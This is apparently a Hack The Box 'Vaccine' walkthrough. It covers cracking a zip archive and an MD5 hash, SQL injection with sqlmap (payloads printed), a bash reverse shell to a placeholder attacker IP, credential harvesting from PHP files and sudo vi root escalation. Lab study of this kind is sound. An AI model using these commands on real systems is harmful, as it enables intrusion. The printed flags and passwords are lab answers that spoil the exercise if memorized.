

## Overview
---
Part of the "starting point"  boxes on HTB, Vaccine has a set of tasks with questions that provide a framework to walk through the machine. Vaccine introduces zip2john, sqlmap and basics of privilege escalation. As this machine is part of the “starting point” category, many of the tasks are fundamental knowledge questions - I highly recommend researching them a bit if you do not know the answer instead of copy/pasting.

|                  |               |
| ---------------- | ------------- |
| **Release Date** | 25 Oct, 2021  |
| **Difficulty**   | Very Easy     |
| **OS**           | Linux         |
| **Created By**   | [MinatoTW](https://app.hackthebox.com/users/8308) |

---

## Tasks

---

### Task 1
---

Besides SSH and HTTP, what other service is hosted on this box?


We can start out with a quick nmap scan:
```bash
[ice@parrot]─[~/Vaccine]$ nmap -p- --reason --min-rate 5000 10.129.95.174
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-13 17:22 EDT
Nmap scan report for 10.129.95.174
Host is up, received reset ttl 63 (0.10s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 14.73 seconds
```


ftp


---

### Task 2
---

This service can be configured to allow login with any password for specific username. What is that username?


We can find the username that allows for login with any (or no) password on the [ftpd man page](https://linux.die.net/man/8/ftpd).


anonymous


---

### Task 3
---

What is the name of the file downloaded over this service?


Given the last task we can assume that this server has anonymous FTP enabled, so let's try connecting to it:
```bash
[ice@parrot]─[~/Vaccine]$ ftp ftp://10.129.95.174/
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp>
```

Now we can see if there are any files with a simple `ls` command:
```bash
ftp> ls
229 Entering Extended Passive Mode (|||10928|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

Let's also grab that file in case we need it later:
```bash
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10777|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |*****************************************************************************************************************************|  2533        1.85 MiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (27.36 KiB/s)
```


backup.zip


---

### Task 4
---

What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?


Searching through the [John documentation](https://www.openwall.com/john/doc/) gives mention of \*2john programs that are available for larger file types.


zip2john


---

### Task 5
---

What is the password for the admin user on the website?


We can start by running zip2john on the file that we downloaded earlier and piping it to an output file:
```bash
[ice@parrot]─[~/Vaccine]$ zip2john backup.zip > backup_hash.txt
```

Now we can try running this file through John the Ripper:
```bash
[ice@parrot]─[~/Vaccine]$ john --wordlist=/usr/share/wordlists/rockyou.txt backup_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2026-07-13 17:40) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have a password, we can try using it to open the zip file:
```bash
[ice@parrot]─[~/Vaccine]$ unzip -P '741852963' backup.zip 
Archive:  backup.zip
  inflating: index.php               
  inflating: style.css
```

Let's take a look at `index.php`:
```bash
  3 session_start();$
  4   if(isset($_POST['username']) && isset($_POST['password'])) {$
  5     if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {$
  6       $_SESSION['login'] = "true";$
  7       header("Location: dashboard.php");$
  8     }$
  9   }$
```

Right at the start of the file it looks like we have some login details for the 'admin' user - but it's hashed! Let's try cracking it with hashcat.

First, I've stored the hash as `hash.txt`, I'll be using `rockyou.txt` again and the options `-m 0` to specify the hash type as `md5` (see hash types [here](https://hashcat.net/wiki/doku.php?id=example_hashes)) and `-a 0` to start with a dictionary attack (trimmed output below):
```bash
[ice@parrot]─[~/Vaccine]$ hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

2cb42f8734ea607eefed3b70af13bbd3:qwerty789

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 2cb42f8734ea607eefed3b70af13bbd3
Time.Started.....: Mon Jul 13 17:53:11 2026 (0 secs)
Time.Estimated...: Mon Jul 13 17:53:11 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2411.0 kH/s (0.16ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 100352/14344385 (0.70%)
Rejected.........: 0/100352 (0.00%)
Restore.Point....: 98304/14344385 (0.69%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Dominic1 -> paashaas
Hardware.Mon.#1..: Util: 25%

Started: Mon Jul 13 17:52:49 2026
Stopped: Mon Jul 13 17:53:13 2026
```


qwerty789


---

### Task 6
---

What option can be passed to sqlmap to try to get command execution via the sql injection?


We can look through the options for sqlmap on the project's [GitHub page](https://github.com/sqlmapproject/sqlmap/wiki/usage).


`--os-shell`


---

### Task 7
---

What program can the postgres user run as root using sudo?


Looks like we're going to have to make some progress on cracking into this machine. Since we have admin credentials from earlier, we can start by loading up the web page associated with the box, where we're met with the "MegaCorp Login" page:



We can login to the page using the admin credentials from earlier (`admin`, `qwerty789`), which brings us to a car catalogue page:


This page is at the url `http://10.129.95.174/dashboard.php`, but if we type anything in the search box we get this appended url `http://10.129.95.174/dashboard.php?search=test` which presents a potential spot for SQL injection, since it's safe to assume that this is querying a database (the car catalogue).

Let's try running sqlmap on this URL with the `--os-shell` flag from earlier. Note that we will need to grab our session cookie (`PHPSESSID`) from our logged in browser session in order for sqlmap to be able to access the page that we want it to test for sql injection:
```bash
[ice@parrot]─[~/Vaccine]
└──╼ $sqlmap -u "http://10.129.95.174/dashboard.php?search=test" --cookie="PHPSESSID=ulgvjjf1uspuhr887nkc9mvhfs" --os-shell     
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.3#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:24:35 /2026-07-13/

[18:24:35] [INFO] testing connection to the target URL
[18:24:35] [INFO] testing if the target URL content is stable
[18:24:35] [INFO] target URL content is stable
[18:24:35] [INFO] testing if GET parameter 'search' is dynamic
[18:24:36] [WARNING] GET parameter 'search' does not appear to be dynamic
[18:24:36] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
[18:24:36] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[18:24:36] [INFO] testing for SQL injection on GET parameter 'search'
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] y
[18:25:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:25:04] [WARNING] turning off pre-connect mechanism because of connection reset(s)
[18:25:04] [WARNING] there is a possibility that the target (or WAF/IPS) is resetting 'suspicious' requests
[18:25:04] [CRITICAL] connection reset to the target URL. sqlmap is going to retry the request(s)
[18:25:06] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:25:07] [INFO] testing 'Generic inline queries'
[18:25:07] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[18:25:08] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable 
[18:25:08] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[18:25:08] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
[18:25:08] [INFO] testing 'PostgreSQL inline queries'
[18:25:08] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[18:25:08] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)                                                                  
[18:25:20] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[18:25:20] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[18:25:31] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
[18:25:31] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=test' AND (SELECT (CASE WHEN (1996=1996) THEN NULL ELSE CAST((CHR(105)||CHR(69)||CHR(86)||CHR(84)) AS NUMERIC) END)) IS NULL-- RkBd

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=test' AND 2094=CAST((CHR(113)||CHR(122)||CHR(112)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (2094=2094) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(106)||CHR(113)||CHR(113)) AS NUMERIC)-- rjyB

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=test';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=test' AND 1007=(SELECT 1007 FROM PG_SLEEP(5))-- eXNo
---
[18:25:52] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[18:25:54] [INFO] fingerprinting the back-end DBMS operating system
[18:25:55] [INFO] the back-end DBMS operating system is Linux
[18:25:55] [INFO] testing if current user is DBA
[18:25:56] [INFO] retrieved: '1'
[18:25:56] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[18:25:56] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```


Due to the nature of SQL injections and the occurrence of false-negative, it is possible you may not get a shell the first time - in the case of getting an os-shell, stacked queries need to be supported, so if you need to retry you may want to add the `--technique=S` flag to force stacked based queries.


And just like that we have a shell on the machine - let's see what user we are:
```bash
os-shell> whoami
[18:26:54] [INFO] retrieved: 'postgres'
command standard output: 'postgres
```

Now we can figure out the answer to this task, we can check what program(s) the current user has access to run with `sudo -l`:
```bash
os-shell> /usr/bin/sudo -l
[18:31:44] [WARNING] the SQL query provided does not return any output
[18:31:44] [INFO] retrieved: 
No output
```

Huh, that's a tad annoying, but not entirely unexpected since we are working on what is known as a "pseudo-shell" - that is, every command is effectively through a new http request, commands need to be chained, and this does not interact well with some commands like `sudo`.

Instead of continuing to work through this we can try to upgrade (and stabilize) our shell, let's start an nc listener using `nc -lvnp 1234`, then connect to it using our sqlmap os-shell:
```bash
bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'
```

And over on our nc listener, we have another shell - this one is a true shell though, so we are capable of running `sudo -l`, but... it needs a password, and seemingly one we do not have. 

Let's do some looking around to see if we can find anything that might help us see the sudo permissions for the postgres user (and, presumably, help get us root from there).

Checking out `/etc/passwd` we can see that our user is part of the PostgreSQL administrator group, no luck on checking `/etc/shadow`.

After much enumeration and poking through the machine, I remembered that there was a web portion of this hosted on the same IP. Checking out `/var/www/html` we can see the same files from earlier (particularly `index.php`, which contained the admin credentials) as well as some additional files.

If we look into `dashboard.php`, towards the top of the file we have another set of credentials, specifically for our current user:
```bash
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!"); 
```

Now we can use that password to finally check which program we can run as sudo:
```bash
postgres@vaccine:/var/www/html$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```


vi


---

### Submit User Flag
---
We ran across the user flag earlier (and the task tells us where it is, postgres' home directory), so we can simply go there can cat it out.


ec9b13ca4d6229cd5cc1e09980965bf7


---

### Submit Root Flag
---
Another one where we know the location of the flag, but we're going to have to escalate our privileges to get there.

We learned earlier that our current user can run `vi` as sudo (albeit only on one file), which we can abuse to get root, as covered (as well as *many* other privesc techniques) on [GTFOBins](https://gtfobins.org/).

We can start by opening the file as sudo:
```bash
sudo vi /etc/postgresql/11/main/pg_hba.conf
```

Then we can enter script mode by pressing `esc` and use the command `:!/bin/sh` to spawn ourselves a root shell.

Finally, we can navigate to the home directory of `root` and grab the root flag to finish up the box!


dd6e058e814260bc70e9bbdef2715849


---

## Closing Thoughts
---
Honestly, not my favourite box - at least for a box in starting point. It has some solid early guidance, which make the initial foothold extremely easy, but from there it throws that out the window, specifically for the privilege escalation steps. Task 7 asks what program the postgres user can run as root using sudo, which implies checking it with `sudo -l`, but the user is left without the password for postgres and has no guidance in finding it. There are a few options for doing so, between normal enumeration and using tools like LinPEAS, but I think for an introductory box the 'hint' should at least guide the user in that direction. Instead, the hint just says `sudo -l`, which is... the obvious part.

I also had an issue with task 6, since the question asks for the `sqlmap` flag to get "command execution" and expects ones specific answer, when there are technically multiple that perfectly fit the description. That's more of a minor nitpick though.

Aside from that, I think the box is alright. It does introduce some very good concepts at least.

---